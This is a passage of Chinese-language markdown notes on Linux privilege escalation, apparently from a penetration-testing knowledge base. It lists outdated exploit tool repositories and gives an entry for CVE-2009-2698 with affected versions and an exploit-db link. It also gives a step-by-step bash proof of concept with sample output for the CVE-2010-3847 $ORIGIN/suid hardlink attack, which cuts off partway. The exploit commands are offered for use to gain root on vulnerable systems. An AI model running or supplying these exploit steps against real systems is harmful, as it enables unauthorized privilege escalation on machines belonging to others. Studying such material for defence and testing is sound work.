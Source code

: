
> 以下工具长期未更新,不推荐
- [sleventyeleven/linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker) - 长期未更新，不推荐
- [lucyoa/kernel-exploits](https://github.com/lucyoa/kernel-exploits) - 长期未更新，不推荐
- [Kabot/Unix-Privilege-Escalation-Exploits-Pack](https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack) - 长期未更新，不推荐
- [InteliSecureLabs/Linux_Exploit_Suggester](https://github.com/InteliSecureLabs/Linux_Exploit_Suggester) - 长期未更新，不推荐

**CVE-2009-2698**
- 简介

    在 2.6.19 之前 Linux 内核中的(1) net/ipv4/udp.c 和(2) net/ipv6/udp.c 中的 udp 实现中的 udp_sendmsg 函数允许本地用户通过涉及 MSG_MORE 标志和 UDP 套接字的向量获得特权或导致拒绝服务(空指针取消引用和系统崩溃)。

- 影响范围
    - Linux kernel < 2.6.19
    - CentOS 4.4/4.5
    - Fedora Core 4/5/6 x86

- POC | Payload | exp
    - [Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Core 4/5/6 x86) - 'ip_append_data()' Ring0 Privilege Escalation (1) - Linux_x86 local Exploit](https://www.exploit-db.com/exploits/9542)

**CVE-2010-3847**
- POC | Payload | exp
    ```bash
    # 在/tmp下创建可控制的目录
    $ mkdir /tmp/exploit
    # 链接到suid二进制程序以更改$ORIGIN的定义

    $ ln /bin/ping /tmp/exploit/target
    # 打开到目标二进制程序的文件描述符

    $ exec 3< /tmp/exploit/target
    # 现在可通过/proc访问描述符

    $ ls -l /proc/$$/fd/3
    lr-x------ 1 taviso taviso 64 Oct 15 09:21 /proc/10836/fd/3 -> /tmp/exploit/target*
    # 删除之前所创建的目录

    $ rm -rf /tmp/exploit/
    # /proc链接仍存在，但已标记为已被删除

    $ ls -l /proc/$$/fd/3
    lr-x------ 1 taviso taviso 64 Oct 15 09:21 /proc/10836/fd/3 -> /tmp/exploit/target (deleted)
    # 使用负载DSO替换目录，使$ORIGIN成为到dlopen()的有效目标
